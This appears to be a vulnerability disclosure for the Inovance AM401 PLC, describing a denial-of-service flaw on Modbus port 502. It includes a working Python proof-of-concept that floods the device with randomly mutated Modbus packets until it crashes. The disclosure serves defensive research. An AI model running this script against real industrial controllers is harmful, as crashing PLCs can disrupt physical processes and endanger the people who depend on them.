 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

# Details
My host ip:![image](https://github.com/user-attachments/assets/7a6cd389-bddb-43c9-994c-5356f3468745)

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/4c48b67b-3d88-4e49-9689-a3cd9046b9ce)

Nmap scans device ports:
![image](https://github.com/user-attachments/assets/9038fe3e-9051-4d16-b732-b579b933c96d)
You can see that port 502 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/62888b9e-8f0f-4a09-a26a-cd344c7c2345)

Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/189ccdf2-398a-48bf-95f8-069994ebfbb4)
![image](https://github.com/user-attachments/assets/00e1625c-d950-4041-bc3c-986838f74292)


# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
            import time
            # time.sleep(0.1)
            # s.close()
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```

# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)

